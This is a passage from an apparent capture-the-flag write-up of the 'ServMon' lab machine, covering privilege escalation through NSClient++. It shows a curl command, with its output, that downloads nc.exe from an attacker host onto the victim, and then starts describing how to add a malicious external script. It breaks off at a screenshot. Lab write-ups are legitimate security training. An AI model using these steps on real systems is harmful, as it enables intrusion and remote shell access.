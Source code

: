 It involves enabling a `module` to run external scripts, and scheduling a `malicious` one to execute commands on the victim system.

Let's do it:

<br />

### 1.- Upload nc.exe to the victim machine:

This is the easiest step, we just serve `nc.exe` from our attacker machine and download it using `curl`:

<br />


```bash
nadine@SERVMON C:\Users\Nadine\Desktop>curl http://10.10.14.15/nc.exe -o nc.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 45272  100 45272    0     0  45272      0  0:00:01 --:--:--  0:00:01  257k

nadine@SERVMON C:\Users\Nadine\Desktop>dir 
 Volume in drive C has no label.
 Volume Serial Number is 20C1-47A1

 Directory of C:\Users\Nadine\Desktop

04/19/2025  10:34 AM    <DIR>          .
04/19/2025  10:34 AM    <DIR>          ..
04/19/2025  10:34 AM            45,272 nc.exe      
04/19/2025  09:43 AM                34 user.txt    
               2 File(s)         45,306 bytes      
               2 Dir(s)   6,342,979,584 bytes free
```

<br />

### 2.- Create the malicious script:

To do this, go to the NSClient++ panel, click on `“Settings”`, then `“External Scripts”`, followed by `“Scripts”`, and finally press `“Add new”`.

Fill in all the required fields for the script creation and click on `"Add"`:

<br />

![8](../../../assets/images/Servmon/8.png)
